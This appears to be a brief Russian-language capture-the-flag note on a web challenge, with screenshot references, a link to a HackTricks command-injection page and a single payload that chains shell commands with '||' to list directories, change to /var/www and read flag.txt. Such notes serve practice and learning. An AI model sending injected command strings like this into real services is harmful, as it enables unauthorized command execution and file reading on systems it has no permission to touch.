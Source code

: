 
![[Pasted image 20241216171142.png]]

![[Pasted image 20241216171208.png]]


можно попробовать Command inject (CI) ([Внедрение команд | ХакХитрости](https://book.hacktricks.xyz/pentesting-web/command-injection)) 

![[Pasted image 20241216171358.png]]
ls || id; cd /var/www || id; ls || id; cat flag.txt || id; ls || id; pwd || id